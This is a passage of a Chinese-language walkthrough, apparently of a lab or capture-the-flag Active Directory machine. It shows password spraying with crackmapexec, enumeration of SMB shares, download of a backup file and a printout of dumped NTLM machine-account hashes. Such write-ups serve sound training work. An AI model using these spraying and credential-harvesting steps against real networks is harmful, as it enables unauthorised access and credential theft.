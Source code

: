 ```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ crackmapexec smb 192.168.205.131 -u user -p 'Password123!!' --continue-on-success| grep '+' 
SMB         192.168.205.131 445    DC01    [+] SOUPEDECODE.LOCAL\file_svc:Password123!!
```

确认 `file_svc` 账户密码为 `Password123!!`

# 七、权限提升

## 7.1 访问backup共享

使用 `file_svc` 账户访问之前无法访问的 `backup` 共享：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nxc smb 192.168.205.131 -u 'file_svc' -p 'Password123!!' --shares --no-bruteforce
...
SMB         192.168.205.131 445    DC01    backup          READ          
...
```

## 7.2 获取备份文件

连接到backup共享并下载文件：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ smbclient //192.168.205.131/backup -U file_svc
Password for [WORKGROUP\file_svc]:
smb: \> DIR
  .                                   D        0  Mon Jun 17 13:41:17 2024
  ..                                 DR        0  Mon Jun 17 13:44:56 2024
  backup_extract.txt                  A      892  Mon Jun 17 04:41:05 2024
smb: \> get backup_extract.txt 
getting file \backup_extract.txt of size 892 as backup_extract.txt (43.6 KiloBytes/sec)
```

## 7.3 分析备份文件

查看备份文件内容：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ cat backup_extract.txt 
WebServer$:2119:aad3b435b51404eeaad3b435b51404ee:c47b45f5d4df5a494bd19f13e14f7902:::
DatabaseServer$:2120:aad3b435b51404eeaad3b435b51404ee:406b424c7b483a42458bf6f545c936f7:::
CitrixServer$:2122:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
FileServer$:2065:aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559:::
MailServer$:2124:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
BackupServer$:2125:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
ApplicationServer$:2126:aad3b435b51404eeaad3b435b51404ee:8cd90ac6cba6dde9d8038b068c17e9f5:::
PrintServer$:2127:aad3b435b51404eeaad3b435b51404ee:b8a38c432ac59ed00b2a373f4f050d28:::
ProxyServer$:2128:aad3b435b51404eeaad3b435b51404ee:4e3f0bb3e5b6e3e662611b1a87988881:::
MonitoringServer$:2129:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
```
